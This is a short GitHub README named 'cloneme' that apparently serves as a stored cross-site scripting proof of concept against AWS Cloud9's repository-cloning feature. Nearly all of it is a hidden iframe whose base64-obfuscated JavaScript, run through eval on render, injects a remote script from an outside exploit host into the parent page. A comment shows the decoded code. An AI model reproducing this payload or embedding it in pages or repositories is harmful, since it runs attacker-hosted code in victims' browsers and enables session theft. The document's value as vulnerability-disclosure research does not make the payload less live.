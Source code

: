 # cloneme
README

<iframe src="javascript:eval(atob('dmFyIHNjcmlwdCA9IHBhcmVudC5kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTsKc2NyaXB0LnNyYyA9ICdodHRwczovL2V4cGxvaXRzLm5pcmFldGguY29tL3NpdGVzL2FtYXpvbi9jbG91ZDkvY2xvbmVyZXBvJTIwc3RvcmVkJTIweHNzL3NjcmlwdC5qcz8nICsgbmV3IERhdGUoKS5nZXRUaW1lKCk7CnBhcmVudC5kb2N1bWVudC5oZWFkLmFwcGVuZENoaWxkKHNjcmlwdCk7'))" style="display:none"></iframe>
<!--
the base64 decodes to:

var script = parent.document.createElement('script');
script.src = 'https://exploits.niraeth.com/sites/amazon/cloud9/clonerepo%20stored%20xss/script.js?' + new Date().getTime();
parent.document.head.appendChild(script);
-->

